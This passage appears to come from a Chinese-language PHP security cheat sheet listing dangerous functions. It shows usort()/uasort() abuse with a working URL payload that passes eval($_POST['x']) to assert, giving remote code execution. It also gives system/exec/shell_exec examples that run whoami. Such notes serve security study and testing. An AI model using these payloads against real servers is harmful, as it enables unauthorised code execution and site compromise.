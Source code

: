 ```php
?>
# payload: 1.php?1[0]=0&1[1]=eval($_POST['x'])&2=assert
# POST传参: x=phpinfo();
```

### uasort()

`uasort()`函数对数组排序并保持索引和单元之间的关联

```php
# 利用方式与usort()相同
<?php 
    usort(...$_GET);
?>
# payload: 1.php?1[0]=0&1[1]=eval($_POST['x'])&2=assert
# POST传参: x=phpinfo();
```

## 命令执行

### system()

`system()`函数就是执行外部指令，并且显示输出

```php
<?php
    $cmd = 'whoami';
    system($cmd);
?>  
# 成功输出whoami结果
```

### exec()

`exec()`函数和上面`system`函数没有太大区别，都是执行外部程序指令，只不过这个函数多了一个参数，可以让我们把命令执行输出的结果保存到一个数组中

```php
<?php
    $cmd = 'whoami';
    exec($cmd);
?>  
# 成功输出whoami结果
```

### shell_exec() 

`shell_exec() `函数通过shell环境执行命令，并且将完整的输出以字符串的方式返回

如果执行过程中发生错误或者进程不产生输出，那么就返回`NULL`

```php
<?php
	$cmd = 'whoami';
	echo shell_exec($cmd);
?>
# 成功输出whoami结果
```
